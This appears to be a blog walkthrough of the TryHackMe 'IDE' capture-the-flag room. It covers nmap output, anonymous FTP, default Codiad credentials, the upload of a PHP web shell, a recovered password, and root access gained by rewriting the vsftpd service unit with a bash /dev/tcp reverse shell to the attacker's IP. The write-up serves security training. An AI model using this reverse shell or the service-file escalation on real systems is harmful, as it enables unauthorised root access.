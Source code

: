 ```yaml
---

title: Walkthrough - IDE
published: true
---
```


Enumeration, Public Exploit, PrivEsc, FTP. Easy box for enumeration.

[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)

* * *

## Notes

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%), QNAP QTS 4.0 - 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

- Codiad 2.8.4
- ``searchsploit``
- After bashing my head against the wall for a few hours going back into the ftp and browsing previous directories can see a file named ``-`` we can get that and check it out

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- can login to the Codiad with ``john:password``
- inside the clouscall folder uploaded pentestmonkey php shell and setup a listener to get a shell.
- running linpeas we find a password in history

```
mysql -u drac -p 'Th3dRaCULa1sR3aL' 
```

we can login to drac with these creds.

* * * 

## What is the user flag?

![0xskar](/assets/ide01.png)

- `sudo -l`

```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means I can restart the vsfptd server and this is great news because checking `ps aux` the vsftpd runs as root so we should be able to take advantage of this somehow.

- `find / -type f -name "vsftpd.*" 2>/dev/null`

Because we are restarting the service lets check out this file

- `nano /lib/systemd/system/vsftpd.service`

and edit it to send us a root reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'


[Install]
WantedBy=multi-user.target
```

- and restart the server after setting up listener

* * * 

## What is the root flag?

![0xskar](/assets/ide02.png)

* * * 


